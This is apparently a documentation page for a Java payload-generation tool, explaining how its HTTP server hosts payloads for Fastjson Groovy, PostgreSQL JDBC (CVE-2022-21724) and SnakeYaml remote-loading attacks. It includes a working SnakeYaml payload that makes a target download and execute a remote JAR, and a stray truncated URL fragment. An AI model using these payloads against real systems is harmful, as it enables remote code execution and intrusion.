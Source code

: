 ```yaml
---
sidebar_position: 6
---
```


# HTTP Server

A simple HTTP Server that can mount generated Payloads to HTTP ports, useful for HTTP URL callback scenarios.

## Fastjson Groovy Remote Loading

Gadget name: `GroovyJarConvert`

Use HTTP Server and enable the corresponding HTTP port, select OtherPayload. In the cascade selector, check GroovyJarConvert. This Gadget will process the bytecode into Groovy Jar Payload format (JAR file), and then mount it to an HTTP port through the HTTP Server. After clicking generate, it will create an HTTP link that can be used in fastjson groovy payload.

![](@site/static/doc/fastjson-groovy.png)

## PostgreSQL JDBC Exploitation

Available Gadgets:

- `SpringBeanXmlClassLoader`
- `SpringBeanXmlExec`
- `SpringBeanXmlSpEL`

PostgreSQL (CVE-2022-21724) combined with SpringBean remote XML file loading, executing bytecode with response.

![](@site/static/doc/postgresql-jdbc.png)

![](@site/static/doc/postgresql-jdbc2.png)
om/LandGrey/spring-boot-upload-file-lead-to-rce-tricks

## SnakeYaml Jar Remote Loading

Gadget name: `SnakeyamlJarConvert`

The generation process is similar to the above, no need for further explanation.

Usually used with the following SnakeYaml Payload to achieve remote loading RCE:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [ [
    !!java.net.URL [ "http://127.0.0.1:7777/yaml-payload.jar" ]
  ] ]
]
```

References:

- https://tttang.com/archive/1815/#toc_snakeyaml_1
- https://github.com/artsploit/yaml-payload
